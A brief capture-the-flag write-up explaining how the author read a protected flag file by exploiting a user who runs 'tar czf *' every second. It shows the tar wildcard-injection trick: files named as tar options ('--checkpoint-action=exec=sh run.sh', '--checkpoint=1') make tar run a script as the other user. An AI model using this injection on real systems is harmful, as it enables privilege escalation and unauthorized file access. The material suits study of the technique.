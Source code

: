 	
We find out that there is 2 users (flag and notroot) and we are notroot.

The flag is in /home/flag but we can not read it, and we know that user flag run “/bin/tar czf *” every second from the hint.

This post helped me a lot.

We will make user flag to write the flag to another file where we can read it, which is in /tmp. Change the directory to /home/notroot and we use:

```bash
echo 'cat /home/flag/flag_c6b0057b3d798b0.txt > /tmp/flag.txt' > run.sh
echo "" > "--checkpoint-action=exec=sh run.sh"
echo "" > --checkpoint=1
```

```bash
cd /tmp
```

```bash
cat flag.txt
```

Then, we only need to go to /tmp and read flag.txt.
